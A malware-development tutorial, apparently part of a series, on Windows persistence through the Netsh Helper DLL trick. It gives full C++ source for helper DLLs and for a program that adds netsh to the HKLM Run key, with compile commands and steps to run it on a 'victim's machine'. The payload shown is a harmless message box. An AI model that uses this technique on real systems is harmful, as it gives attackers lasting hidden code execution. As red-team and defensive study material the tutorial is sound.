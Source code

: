 ## 47. malware development: persistence - part 6. Windows netsh helper DLL. Simple C++ example.

![pers](./images/56/2022-05-29_15-24_1.png){width="80%"}    

This section is a next part of a series of articles on windows malware persistence techniques and tricks.    

Today I'll wrote about the result of self-researching another persistence trick: Netsh Helper DLL.

### netsh

**Netsh** is a Windows utility that administrators can use to modify the host-based Windows firewall and perform network configuration tasks. Through the use of DLL files, Netsh functionality can be expanded.

This capability enables red teams to load arbitrary DLLs to achieve code execution and therefore persistence using this tool.
However, local administrator privileges are required to implement this technique.

### practical example

Let's go to consider practical example. First of all create malicious DLL:

```cpp
/*
evil.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Compile it:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![pers](./images/56/2022-05-29_15-12.png){width="80%"}    

And transferred to the target victim's machine.

Netsh interacts with other components of the operating system via dynamic-link library (DLL) files. Each netsh helper DLL offers a comprehensive collection of features. The functionality of Netsh can be expanded using DLL files:

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](./images/56/2022-05-29_15-20.png){width="80%"}    

Then, the `add helper` can be used to register the DLL with the `netsh` utility:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil.dll
```

![pers](./images/56/2022-05-29_15-23.png){width="80%"}    

![pers](./images/56/2022-05-29_15-24.png){width="80%"}    

Everything is worked perfectly!

However, `netsh` is not scheduled to start automatically by default. Persistence on the host is created by creating a registry key that executes the application during Windows startup. This can be done immediately using the script below:

```cpp
/*
pers.cpp
windows persistence via netsh helper DLL
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // netsh
  const char* netsh = "C:\\Windows\\SysWOW64\\netsh";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 
    0, REG_SZ, (unsigned char*)netsh, strlen(netsh));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see it's similar to script from my post about [persistence via registry run keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)

Check registry run keys:

```powershell
reg query \
"HKLM\Software\Microsoft\Windows\CurrentVersion\Run" \
 /s
```

![pers](./images/56/2022-05-29_15-18.png){width="80%"}    

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/56/2022-05-29_15-14.png){width="80%"}    

and run on victim's machine:      

```powershell
.\pers.exe
```

![pers](./images/56/2022-05-29_15-21.png){width="80%"}    

When the `add helper` command is executed to load a DLL file, the following registry key is created:     

![pers](./images/56/2022-05-29_15-25.png){width="80%"}    

But there is a caveat. The PoC's logic needs to be updated to create a new thread so that netsh can still be used while the payload is running. However, when netsh ends, so does your malicious logic.

So, let's try. Create new DLL (`evil2.cpp`):

```cpp
/*
evil2.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

DWORD WINAPI Meow(LPVOID lpParameter) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 1;
}

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  HANDLE hl = CreateThread(NULL, 0, Meow, NULL, 0, NULL);
  CloseHandle(hl);
  return 0;
}
```

Compile:

```bash
x86_64-w64-mingw32-gcc -shared -o evil2.dll evil2.cpp -fpermissive
```

![pers](./images/56/2022-05-29_16-21.png){width="80%"}    

and run steps again:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil2.dll
```

![pers](./images/56/2022-05-29_16-23.png){width="80%"}    

As you can see, everything is ok, `netsh` can still be used. And we can check registry key for correctness:    

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](./images/56/2022-05-29_16-23_1.png){width="80%"}    

Because it is based on the exploitation of system features, this type of attack cannot be easily mitigated with preventive controls.

[netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)    
[MITRE ATT&CK: Netsh Helper DLL](https://attack.mitre.org/techniques/T1546/007/)    
[source code on github](https://github.com/cocomelonc/2022-05-29-malware-pers-6)    
